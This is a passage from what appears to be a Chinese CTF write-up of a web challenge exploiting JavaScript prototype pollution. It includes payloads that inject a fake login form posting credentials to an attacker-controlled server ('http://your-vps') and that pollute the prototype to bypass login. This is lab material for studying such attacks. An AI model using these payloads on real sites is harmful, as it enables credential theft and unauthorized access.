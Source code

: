 在sandbox中类似这种的li标签是都在沙盒內部的

```javascript
$tmp = $("li[type='header']");
$newNode = $( $tmp.html() );
$newNode.find("span.content").html(dom[key][0]);
// console.log($newNode.html());
viewport.appendChild( $newNode[0] );
break;

```

最终发现同时满足li和具有span-content的地方如下

```html
  <li type="logger">
      <div class="col-sm-12 col-sm-centered">
          <pre class="am-pre-scrollable">
              <span class="am-text-success">[Tue Jan 11 17:32:52 9]</span> <span class="am-text-danger">[info]</span> <span class="content">StoreHtml init success .....</span>
          </pre>
      </div>
  </li>

```

我们可以把这个span-content的值改为我们获取flag的表单

利用Payload为

```
{"type":"wiki","content":{"__proto__":{"logger":"<form action='http://your-vps' method='post' class='am-form'><input type='text' name='username' id='email' value=''><input type='password' name='password' id='password' value=''><input type='submit' name='' ></form>"}}

```

这样即可在object中加上logger，还要处理一下登陆的问题，因为robot.py没有登陆的操作，下面payload打五次，绕过登陆

```
{"type":"test","content":{"constructor":{"prototype":{"login":true,"userid":1}}}}

```

最后监听一下端口，拿到模拟flag

![nz0Hcq.png](https://s2.ax1x.com/2019/09/21/nz0Hcq.png)

最后的话看了一下这个extend

datas

![uS9Hu4.png](https://s2.ax1x.com/2019/09/21/uS9Hu4.png)

allnode

![uSEAaQ.png](https://s2.ax1x.com/2019/09/21/uSEAaQ.png)
